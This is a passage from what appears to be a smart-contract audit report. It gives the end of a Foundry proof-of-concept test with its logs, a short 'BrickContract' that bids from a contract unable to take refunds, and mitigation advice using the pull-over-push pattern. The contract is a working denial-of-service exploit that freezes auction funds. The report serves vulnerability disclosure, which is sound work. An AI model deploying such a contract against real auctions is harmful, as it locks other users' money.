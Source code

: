 ```solidity
        vm.expectRevert();
        aDemo.claimAuction(10000000000);
        console.log("AuctionDemo contract balance after all bids and claim: ", address(aDemo).balance);
        vm.stopPrank();

        vm.startPrank(alice);
        console.log("Alice balance: ", alice.balance);
        vm.expectRevert();
        aDemo.cancelBid(10000000000, 0);
        console.log("Alice balance: ", alice.balance);
        vm.stopPrank();
    }
}
```
```solidity
Logs:
  This is the brickContract address:  0x060cc26038E69D73552679103271eCA6E37D4CE6
  This is the highest bidder:  0x060cc26038E69D73552679103271eCA6E37D4CE6
  AuctionDemo contract balance after all bids and claim:  25000000000000000001
  Alice balance:  0
  Alice balance:  0
```
Create a file named BrickContract.sol in the test folder and add the following to it

```solidity
pragma solidity 0.8.19;

import {auctionDemo} from "../smart-contracts/AuctionDemo.sol";

contract BrickContract {
    auctionDemo public aDemo;

    constructor(address _aDemo) {
        aDemo = auctionDemo(_aDemo);
    }

    function bid(uint256 _nftId) public payable {
        aDemo.participateToAuction{value: msg.value}(_nftId);
    }
}
```

To run the test use: forge test -vvv --mt test_BrickAuctionDemo

## Tools Used
Foundry & Manual review

## Recommended Mitigation Steps
Consider adding separate functions where the other bidders can withdraw the amount they have bid after the Auction is completed, as well as add such function for the NFT owner that put their NFT for an auction, so he can withdraw his earnings. Consider utilizing the Pull over Push pattern https://fravoll.github.io/solidity-patterns/pull_over_push.html
## Assessed type
Token-Transfer
